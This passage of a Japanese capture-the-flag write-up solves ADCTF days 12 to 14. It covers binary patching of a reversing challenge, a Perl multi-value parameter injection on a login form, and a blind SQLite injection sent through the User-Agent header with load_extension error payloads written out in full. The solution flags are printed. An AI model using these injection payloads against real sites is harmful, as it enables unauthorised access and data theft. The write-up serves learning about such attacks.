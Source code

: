 ```
flag: ADCTF_d0_NoT_Us3_FUcK1N_8l4ckL1sT
```

## 12 日目 bruteforce (reversing)
- `file bruteforce` は `bruteforce: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped`。
- `objdump -D bruteforce` して見ているとちょくちょく `mov al,0x23; syscall` がある。
- x86_64 のシステムコール番号を調べると 0x23 は sys_nanosleep。
- nanosleep が邪魔なので syscall (0f 05) を nop で潰す。
- 0x400780 からフラッグの表示部分、0x400780 に飛んでいる部分を探す。
- 0x400708 で `cmp rax,QWORD PTR [rip+0x200969]` と比較した後 `je 400780` で等しかった場合に 0x400780 に飛ぶ。
- `rip+0x200969`、つまり 0x601078 を gdb で `x/qx 0x601078` として見ると `0x00989680`、10 進数に直すと `10000000`。
- 試しに `0x00989680` を `100` に変えて実行してみると `the flag is: ADCTF_541` と表示された。
- `1000` に変えて実行してみるとしばらくしてから `the flag is: ADCTF_7919` と表示された。
- `541` は 100 番目の素数、`7919` は 1000 番目の素数なので `ADCTF_{10000000 番目の素数}` がフラッグになる。

```
flag: ADCTF_179424673
```

## 13 日目 loginpage (web)
- [New Class of Vulnerability in Perl Web Applicationsの紹介 | 徳丸浩の日記](http://blog.tokumaru.org/2014/10/new-class-of-vulnerability-in-perl-web.html)を参考にした。
- 適当に register でユーザを作る。
- login に `name=...&pass=...&pass=admin&pass=1&pass=give_me_flag&pass=1&pass=` を送る。
- (最後の `pass=` は admin と give_me_flag を 0 にさせない為に必要)

```
flag: ADCTF_L0v3ry_p3rl_c0N73x7
```

## 14 日目 secret table (web)
- `we recorded your IP and user agent.` ということなので User-Agent を `'` に変えるとエラーが出た。
- エラーが出るか出ないかで判断するブラインド SQLi と推測。
- `' || sqlite_version() || '` でエラーが出なかったので SQLite。
- `' || (select tbl_name from sqlite_master where type = 'table') || '` でテーブル名が記録される。
- `substr(str, index, 1)` で切り取りながら `... >= 'A'` とか比較を繰り返して絞り込んでいく。
- が、`' || substr((select tbl_name from sqlite_master where type = 'table'), 1, 1) >= 'z' || '` は `'0'` になるのでエラーが出ない…。
- 条件分岐、もし当てはまらなければ `load_extension` で存在しないファイルを読み込ませてエラーを出す。
- `' || (select case when substr(tbl_name, 28, 1) >= '0' then 'a' else load_extension('a') end from sqlite_master limit 1 offset 1) || '` みたいなのを繰り返すとフラッグが入っているテーブルが分かる、`super_secret_flag__Ds7KLcV9`。
- フラッグが入っているカラムも調べる、`' || (select case when substr(sql, 75, 1) = 'i' then 'a' else load_extension('a') end from sqlite_master limit 1 offset 1) || '`、`yo_yo_you_are_enjoying_blind_sqli`。
- 最後にフラッグを調べる、`' || (select case when substr(yo_yo_you_are_enjoying_blind_sqli, 1, 1) = 'A' then 'a' else load_extension('a') end from super_secret_flag__Ds7KLcV9 limit 1 offset 0) || '`。

```
flag: ADCTF_ERR0r_hELP5_8L1nd_5Ql1
```
